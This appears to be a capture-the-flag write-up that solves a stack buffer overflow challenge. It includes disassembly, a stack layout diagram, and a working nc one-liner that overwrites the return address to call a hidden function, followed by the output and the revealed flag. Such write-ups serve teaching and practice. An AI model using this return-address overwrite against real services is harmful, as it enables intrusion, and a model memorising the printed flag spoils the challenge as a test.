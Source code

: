 **Name**: Smash the Stack  
**Points**: 250  
**Instructions**: Exploit the vulnerable [smash-the-stack](https://challenges.runesec.com/static/322479ef49ce2bf103e538e898de875a/smash-the-stack) service running at challenges.runesec.com:29761.  
**Hint**: It's a secret!  

## Exploration
- The name of this challenge suggests the service provided is vulnerable to buffer overflow attacks.

- Usually this is a result of using memory manipulation functions that don't take the length of the input into consideration. For example, `strcpy()` instead of `strncpy()`, `strcat()` instead of `strncat()`, etc.

- We open the file in radare2. `main` calls a function named `echo`. It asks for our input.

- `echo` reads our input in a 28-bytes long buffer
```
0x080485dc  68eb860408  push str.Enter_some_text: ; str.Enter_some_text: ; "Enter some text:" @ 0x80486eb
0x080485e1  e81afeffff  call sym.imp.puts         ;[1]
0x080485e6  83c410      add esp, 0x10
0x080485e9  83ec08      sub esp, 8
0x080485ec  8d45e4      lea eax, [ebp - 0x1c]     ;[2]
```
*0x1c in hexadecimal is 28 in decimal*  

- We also notice a function named `secretFunction` which makes a call to the system to open `flag.txt`. We need to call that function.

- Calling that function is trivial with the help of gdb on our machine. But, obviously, there's no `flag.txt` on our machine. 

- We need to somehow give a crafted input to the online service that will make it call `secretFunction` and give us the flag.

- Maybe we can overwrite the return address of `echo` and make it return the flow to `secretFunction`, instead of back to main.

- `secretFunction` is at address `0x0804856b`.

## Exploitation
- Since our input will only stop being copied in the buffer until a null terminator is found, we can give an input as long as we desire.  

- We know that anything beyond 28 bytes - the maximum length expected - has free reign on other memory spaces that follow.  
After the buffer, theres a Saved Frame Pointer and then the Return Address Pointer.  
```
buffer                        sfp   ret  
[             28             ][ 4  ][ 4  ]
```

- Pointers in 32-bit architectures are 4 bytes long.

- Return Address Pointer holds the address that the function was called from so it knows where to, well, return. We can overwrite that address space with our crafted input so it contains the address of `secretFunction`.
```
buffer                        sfp   ret 
[aaaaaaaaaaaaaaaaaaaaaaaaaaaa][aaaa][\x6b\x85\x04\x08]
```

#### Solution
```
$ echo -e "`printf 'a%.0s' {1..32}`\x6b\x85\x04\x08" | nc challenges.runesec.com 29761
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaak�
y0u f0unD the s3cr3t fuNcti0n!
flag{4a354d3c8d8779a9b57430c028e1a390}
```